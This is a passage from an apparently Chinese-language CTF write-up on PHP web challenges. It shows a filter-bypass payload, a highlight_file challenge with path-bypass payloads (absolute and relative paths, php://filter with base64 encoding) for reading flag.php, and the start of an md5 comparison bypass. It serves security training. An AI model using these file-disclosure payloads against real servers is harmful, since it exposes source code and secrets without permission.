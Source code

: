 然后因为filter函数

payload

```
num=%0c36,%0c需要放在最前面
```

##  6.路径问题

### web96 

```php
if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
}
```

函数

```php
highlight_file(filename,return):对文件进行语法高亮显示
filename	必需。要进行高亮处理的 PHP 文件的路径。
return	可选。如果设置 true，则本函数返回高亮处理的代码。
本函数通过使用 PHP 语法高亮程序中定义的颜色，输出或返回包含在 filename 中的代码的语法高亮版本。

许多服务器被配置为对带有 phps 后缀的文件进行自动高亮处理。例如，在查看 
example.phps 时，将显示该文件被语法高亮显示的源代码。要启用该功能，请把下面这一行添加到 httpd.conf：

AddType application/x-httpd-php-source .phps
show_source():跟上面一样的
```

意思就是，可以利用show_source来显示出代码内容。

payload：

```php
u=/var/www/html/flag.php   		绝对路径
u=./flag.php									相对路径
u=php://filter/resource=flag.php	php伪协议
u=php://filter/read=convert.base64-encode/resource=flag.php
```

## 7.md5绕过

###  强类型比较

```php
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
```
